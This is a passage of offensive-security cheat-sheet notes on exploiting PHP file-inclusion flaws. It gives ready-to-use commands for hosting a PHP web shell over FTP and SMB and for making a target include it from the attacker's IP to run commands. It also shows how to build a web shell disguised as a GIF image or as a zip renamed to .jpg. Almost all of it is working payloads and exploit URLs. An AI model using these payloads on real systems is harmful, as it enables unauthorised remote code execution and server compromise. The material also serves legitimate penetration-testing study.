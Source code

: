 ```
sudo python -m pyftpdlib -p 21
```

&#x20;Target:

```
http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
```

&#x20;Or if validation required:&#x20;

```
curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```

### SMB

If the vulnerable web application is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the allow\_url\_include setting to be enabled.&#x20;

Host:&#x20;

```
impacket-smbserver -smb2support share $(pwd)
```

&#x20;Target:&#x20;

```
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```

## File uploads

### Malicious Image

To create `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif` **Note**: We are using a GIF image in this case since its magic bytes are easily typed, as they are ASCII characters, while other extensions have magic bytes in binary that we would need to URL encode. However, this attack would work with any allowed image or file type.

Then use like so with&#x20;

```
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```

### ZIP upload

There are also other php wrapper with same functionality.

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

Even tho it is a .jpg it can be detected so ot has a better chance of working if zip upload allowed. Use zip wrapper to execute.&#x20;
